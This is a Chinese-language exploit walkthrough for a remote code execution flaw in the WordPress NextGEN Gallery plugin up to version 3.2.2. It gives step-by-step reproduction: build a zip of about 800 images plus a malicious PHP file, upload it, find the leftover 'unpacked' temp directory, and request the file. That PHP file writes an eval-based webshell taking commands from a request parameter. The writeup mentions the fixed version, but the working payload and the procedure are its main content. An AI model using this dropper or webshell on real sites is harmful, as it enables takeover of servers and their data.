```yaml
---
title: "WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE"
id: zhfly3241
---
```


# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

## 一、漏洞简介

WordPress插件NextGEN Gallery <= 3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第2步：上传zip压缩包

点击“Add Gallery / Images”然后上传zip压缩包。

![image](../img/fe18920760e779c49c953accdc0d14e0.png)

### 第3步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。

![image](../img/af864e2ed1d9c8e6ed67d780958f6dde.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```

![image](../img/046d02b52811fab72c9cab442e61a853.png)

![image](../img/053d19e3d971235f546635323d0c067a.png)